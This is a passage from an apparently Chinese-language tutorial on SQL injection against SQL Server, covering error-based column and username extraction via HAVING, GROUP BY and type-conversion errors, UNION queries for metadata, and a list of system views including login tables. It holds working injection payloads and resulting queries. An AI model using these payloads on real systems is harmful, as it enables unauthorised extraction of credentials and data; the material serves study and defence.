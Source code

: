   攻击者可以利用 SQL Server 特性来获取敏感信息，在输入框中输入如下语句：
  `' having 1 = 1 --`
  最终执行的 SQL 语句就会变为：
  `SELECT * FROM user WHERE username = 'root' AND password = 'root' HAVING 1 = 1 --`
  
  那么 SQL 的执行器可能会抛出一个错误：
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190224191512414.png)
  
  攻击者就可以发现当前的表名为 ****user****、而且存在字段 ****id****。
  
  攻击者可以利用此特性继续得到其他列名，输入如下语句：
  `' GROUP BY users.id HAVING 1 = 1 --`
  则 SQL 语句变为：
  `SELECT * FROM user WHERE username = 'root' AND password = 'root' GROUP BY users.id HAVING 1 = 1 --`
  
  抛出错误：
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190224192110665.png)由此可以看到包含列名 **username**。可以一次递归查询，知道没有错误消息返回位置，这样就可以利用 **HAVING** 字句得到当表的所有列名。
  注：Select指定的每一列都应该出现在Group By子句中，除非对这一列使用了聚合函数

+ 利用数据类型错误提取数据
  如果试图将一个字符串与非字符串比较，或者将一个字符串转换为另一个不兼容的类型，那么SQL 编辑器将会抛出异常。
  
  如下列 SQL 语句：
  `SELECT * FROM user WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users)`
  
  执行器错误提示：
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190224193113204.png)
  
  这就可以获取到用户的用户名为 **root**。因为在子查询 `SELECT TOP 1 username FROM users` 中，将查询到的用户名的第一个返回，返回类型是 **varchar** 类型，然后要跟 **int** 类型的 **1** 比较，两种类型不同的数据无法比较而报错，从而导致了数据泄露。
  
  利用此方法可以递归推导出所有的账户信息：
  `SELECT * FROM users WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users WHERE not in ('root'))。`
  通过构造此语句就可以获得下一个 用户名；若把子查询中的 **username** 换成其他列名，则可以获取其他列的信息，这里就不再赘述。

#### 2.获取元数据

SQL Server 提供了大量视图，便于取得元数据。可以先猜测出表的列数，然后用 **UNION**来构造 SQL 语句获取其中的数据。
如：
`SELECT *** FROM *** WHERE id = *** UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES`
若当前表的列数为 2，则可以 UNION 语句获取当前数据库表。具体怎么猜测当前表的列数，后面进行描述。

一些常用的系统数据库视图：

```sql
- SYS.DATABASES SQL Server 中的所有数据库

- SYS.SQL_LOGINS SQL Server 中的所有登录名

- INFORMATION_SCHEMA.TABLES 当前用户数据库中的所有数据表

- INFORMATION_SCHEMA.COLUMNS 当前用户数据库中的所有列

- SYS.ALL_COLUMNS 用户定义对象和系统对象的所有列的联合

- SYS.DATABASE_PRINCIPALS 数据库中每个权限或列异常权限

- SYS.DATABASE_FILES 存储在数据库中的数据库文件

- SYSOBJECTS 数据库中创建的每个对象 (包括约束、日志以及存储过程)
```
